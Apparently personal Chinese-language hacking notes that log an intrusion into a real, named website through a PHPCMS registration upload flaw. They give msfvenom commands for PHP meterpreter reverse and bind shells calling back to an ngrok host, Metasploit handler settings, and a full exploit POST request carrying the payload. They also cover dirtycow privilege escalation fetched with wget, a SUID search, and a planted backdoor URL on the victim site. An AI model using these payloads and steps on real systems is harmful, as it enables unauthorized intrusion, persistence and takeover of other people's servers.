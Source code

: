 实战之偷Shell
> https://www.youtube.com/watch?v=uFdiwh7lP38（一个网站的后门和反弹shell教程，在android机器上，包括使用ngrok）

参考：
https://bbs.ichunqiu.com/thread-35618-1-1.html
http://www.freebuf.com/vuls/131648.html
https://bbs.ichunqiu.com/thread-35537-1-1.html
源码分析：
https://paper.seebug.org/273/

reverse_tcp和bind_tcp：
通过执行reverse会反弹一个tcp到指定IP和端口
而执行bind是在受害机启用一个监听端口


1. 查找出该网站使用了谷歌高级搜索


1. 云溪查看有phpcms
2. 进入后台方式，查找后得知，首页加上admin.php就会发生跳转
3. 但是却是登录界面，漏洞需要注册界面：index.php?m=member&c=index&a=register&siteid=1
4. 
### bind Shell
攻击机去访问目标机的端口

### reverse Shell
目标机访问攻击端口
因而需要一个公网口。让目标机创建和公网口的连接，攻击机再和公网口连接。

1. 开启apache，确定端口
2. 生成公网http访问口
3. 生成shell
4. 上传

我们不要关闭之前开启的ngrok，并注册另一个。再开启TCP端口。（因为在生成shell的时候我们需要知道TCP对应的IP,进而我们需要一个TCP公网口，但在上传时我们需要一个http口，若是关闭了TCP再开http，再开TCP，此时的TCP就会改变，变了就连接不上）

info[content]:<img src=http://f91ac139.ngrok.io/djerryz.txt?.php#.jpg>（这边将生成的php改为txt后缀，否则不是上传，而是本地服务器执行）
info[content]:<img src=http://file.codecat.one/normalOneWord.txt?.php#.jpg>

Thu, 15 Mar 2018 03:59:05 GMT
/uploadfile/2018/0315/20180315115905
15 Mar 2018 06:04:58
/uploadfile/2018/0315/20180315140458


只需要以上几个参数，好像多了info[birthday]会导致报content错

(不要带这个-e php/base64，因为要是服务器不做相应的解码操作。就不会还原成php语言，也就无法执行。但是有时绕过WAF有用
）
msfvenom -p php/meterpreter_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=15350 -f raw >djerryz.php 这个载荷大

msfvenom -p php/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=15350 -f raw >djerryz.txt (不用php后缀） 这个小

似乎ngrok生成TCP的5分钟比较给力


use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 9999



那么只能先通过bind_shell进入


Bind Shell

use exploit/multi/handler
set Payload php/meterpreter/bind_tcp
set RHOST 211.149.182.215

(默认端口4444）
msfvenom -p php/meterpreter/bind_tcp R > d_bind.txt

<img src=http://f91ac139.ngrok.io/d_bind.txt?.php#.jpg>

Date: Thu, 15 Mar 2018 06:39:44 GMT
/uploadfile/2018/0315/20180315143944
Thu, 15 Mar 2018 07:00:08
/uploadfile/2018/0315/20180315110008
/uploadfile/2018/0315/20180315070008
/uploadfile/2018/0315/20180315150008
/uploadfile/2018/0315/20180315030008

Thu, 15 Mar 2018 07:31:30
/uploadfile/2018/0315/20180315073130
/uploadfile/2018/0315/20180315033130


15 Mar 2018 08:02:19

/uploadfile/2018/0315/20180315040219

Thu, 15 Mar 2018 08:07:17 GMT
/uploadfile/2018/0315/20180315040717

Date: Thu, 15 Mar 2018 08:10:21 GMT
/uploadfile/2018/0315/20180315041021
1 2 3 4 5 6 7 8 9 10 11 12 1   2 3  4  5  6  7  8  9  10 11 12
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24

不执行-->看到4444端口是处于filter状态


Thu, 15 Mar 2018 08:30:44


提取出:
访问使其执行：

脏牛提权:https://www.youtube.com/watch?v=-8nl29LfHHQ

wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c --no-check-certificate

失败:
只能在tty下使用su命令。但是dirtycow似乎能成功提权的

之后尝试：http://www.zerokeeper.com/penetration/the-use-of-dirty-cow-dirty-cattle-loopholes-in-the-right-to-try.html
这个似乎在获权后会自动执行su

find / -perm -u=s -type f 2>/dev/null

留下后门:
http://www.poderieinaudi.com.cn/iwannastay.php?12248&0.tcp.ngrok.io

阻止他人再进入，方法太多了。这儿就通过源码分析。使得上传名的规则让他们无法知道。


POST /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1
Host: www.poderieinaudi.com.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://www.poderieinaudi.com.cn/index.php?m=member&c=index&a=register&siteid=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Cookie: PHPSESSID=da3f08ed4f0a0340e22eb2c4510158b9
Connection: close
Upgrade-Insecure-Requests: 1

siteid=1&modelid=11&username=321asazsz3q&password=azc12xwca&email=adj12zwqa%40qq.com&dosubmit=1&info[content]=<img%20src%3dhttp://f91ac139.ngrok.io/djerryz.txt?.php#.jpg>&protocol=

http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
POST_DATA:userid_flash=14e0uml6m504Lbwsd0mKpCe0EocnqxTnbfm4PPLW



Fri, 16 Mar 2018 09:30:53
/uploadfile/2018/0316/20180316053053


curl会产生http请求的